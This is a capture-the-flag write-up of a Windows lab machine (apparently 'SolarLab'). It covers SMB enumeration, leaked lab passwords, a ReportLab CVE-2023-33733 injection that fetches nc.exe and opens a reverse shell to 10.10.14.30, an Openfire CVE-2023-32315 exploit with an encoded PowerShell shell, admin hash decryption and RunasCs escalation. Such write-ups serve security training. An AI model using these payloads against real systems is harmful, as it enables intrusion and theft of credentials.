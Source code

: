 # enumeration
**Shell as Blake Byte**

Names found on the webpage

![](20_enumeration_image.png)

`Alexander Knight`  
`Caudia Springer`  
`Blake Byte`

SMB anonymous login is available and we can access a documents folder with 4 files available.

![](enumeration_image.png)

`Training-Request-Form.docx`  
`Travel-Request-Sample.docx`  
`details-file.xlsx`  
`old_leave_request_form.docx`  
 

Moved the documents to my windows machine to make things easier and we have some interesting info

![](1_enumeration_image.png)

Passwords found

`al;ksdhfewoiuh`  
`dkjafblkjadsfgl`  
`d398sadsknr390`  
`ThisCanB3typedeasily1@`  
`danenacia9234n`  
`dadsfawe9dafkn`

Users found

`Alexander.knight@gmail.com`  
`KAlexander`  
`Alexander.knight@gmail.com`  
`blake.byte`  
`AlexanderK`  
`ClaudiaS`  
  
 

Couldnt find anything interesting so i looked back at nmap and port 6791 is a web page. I tried accessing it earlier but it didnt load. In nmap it shows the subdomain name. I add it to our /etc/hosts and we have a login page.

![](2_enumeration_image.png)

We can enumerate users on this page as it discloses if the username is not found.

![](3_enumeration_image.png)

The correct username is `AlexanderK`, however none of the passwords we found work for this. The file with all the usernames and passwords includes security questions. Currently running gobuster to see if theres a way to reset passwords and possibly supply these security question answers.

I doubled checked the list and I didnt enter one username. `ClaudiaS`, which comes back to a vaild user as well. Passwords found also dont work though.

Got some help from a user on discord and he told me to “Guess” for another username. Looking at the list of users I tried BlakeB and it worked.

We can login with BlakeB:`ThisCanB3typedeasily1@`

`ThisCanB3typedeasily1@`

![](4_enumeration_image.png)

Each of these options allow us to submit a request with an image file

![](5_enumeration_image.png)

I created a pdf and grabbed the request in burp and saw its using reportlab pdf to create  the pdfs. Reportlab seems to have some exploits but they are html document exploits.

![](6_enumeration_image.png)

This seems to be the exploit we want to use

https://github.com/c53elyas/CVE-2023-33733

After a ton of testing I was trying the exploit in the wrong place that had a character limit. Doing this under the “title section” works and I get a curl request. With this I have RCE and should be able to get a shell.

![](7_enumeration_image.png)

First I run the above command to get nc.exe from our machine, then I run nc.exe to get a shell

`<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('certutil -urlcache -f` [`http://10.10.14.30/nc.exe`](http://10.10.14.30/nc.exe) `nc.exe') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">`  
               `exploit`  
`</font></para>`

![](9_enumeration_image.png)

`<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('nc.exe -e cmd 10.10.14.30 443') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">`  
               `exploit`  
`</font></para>`

![](8_enumeration_image.png)

**Shell as OpenFire**

We have another user called OpenFire, may need to compromise this account.

OpenFire has some known exploits.

Looking at open ports we have openfire open on 9090

.\\chisel.exe `client 10.10.14.30:8000 R:9090:localhost:9090`

After port forwarding we can now access the openfire portal

Version 4.7.4 has a known RCE exploit

![](10_enumeration_image.png)

Using this public script released in 2023 we can create an account on the page and sign in

[https://github.com/miko550/CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)

![](11_enumeration_image.png)

We can now login with the username/password above.

I then upload a plugin following the CVE steps.

![](13_enumeration_image.png)

![](12_enumeration_image.png)

Once we log into the management portal we can execute commands. I tried using nc.exe but it wouldnt work. Used a powershell rev shell with

`cat shell.ps1 | iconv -t utf-16le | base64 -w 0`

then I copy the output and paste it into the execute command option

`PowerShell.exe -Exec ByPass -Nol -Enc <base64 payload>`

![](15_enumeration_image.png)

![](14_enumeration_image.png)

**Shell as Administrator**

Looking at my privileges and the system info of the machine there are not any known exploits so I knew we had to find credentials for Admin.

This was found at C:\\Program Files\\Openfire\\embedded-db containing SQL information.

![](19_enumeration_image.png)

INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')

Looking at this post [https://hashcat.net/forum/thread-2399.html](https://hashcat.net/forum/thread-2399.html) we can decrypt the password with the key. The key is in the same file.

The link above shows how we can decrypt the string using java, I had chatgpt create a script in python as the java one didnt work. I am sure there are public ones available but this was faster.

`Hash = becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442`

`Key = hGXiFzsKaAeYLjn`

Admin password ThisPasswordShouldDo!@

![](18_enumeration_image.png)

Confirming the admin password works(note the back slash is just for escaping)

![](16_enumeration_image.png)

I spent quite a while trying to get a shell on the machine with the login and couldnt get it. Evil-winrm port wasnt open so we didnt have easy access. I forgot about the program RunAsCs, this makes it really easy. Downloaded it and moved it to the machine and ran it and we are Admin.  
https://github.com/antonioCoco/RunasCs

.\\runascs.exe Administrator ThisPasswordShouldDo!@ cmd -r 10.10.14.30:443

![](17_enumeration_image.png)